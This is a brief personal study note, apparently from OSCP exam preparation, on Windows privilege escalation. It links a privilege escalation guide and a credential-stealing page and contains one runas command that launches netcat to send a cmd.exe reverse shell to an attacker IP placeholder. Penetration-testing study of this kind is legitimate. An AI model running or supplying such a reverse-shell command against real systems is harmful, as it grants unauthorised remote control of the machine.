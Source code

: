 Windows Techniques

https://blog.adithyanak.com/oscp-preparation-guide/windows-privilege-escalation

![7f7a6116ba9c0686eeb15869ed9dfb23.png](:/105b5332a73648dcbab924774c4f8ffb)

> C:\\Windows\\System32\\runas.exe /env /noprofile /user: <username><password>"c:\\users\\Public\\nc.exe -nc &lt;attacker-ip&gt; 4444 -e cmd.exe"</password></username>

![f0052db1453f6b0ee5cc49e29b99bd9b.png](:/ac24ce9a2c934c51b443151e67046c2b)

https://book.hacktricks.xyz/windows/stealing-credentials

id: 36e8b1abdf2f4ed19ec5e03306ca9155
parent_id: 986d75298ac542b38075779da7f69186
created_time: 2022-01-28T08:37:34.258Z
updated_time: 2022-01-31T04:42:50.615Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-28T08:37:34.258Z
user_updated_time: 2022-01-31T04:42:50.615Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1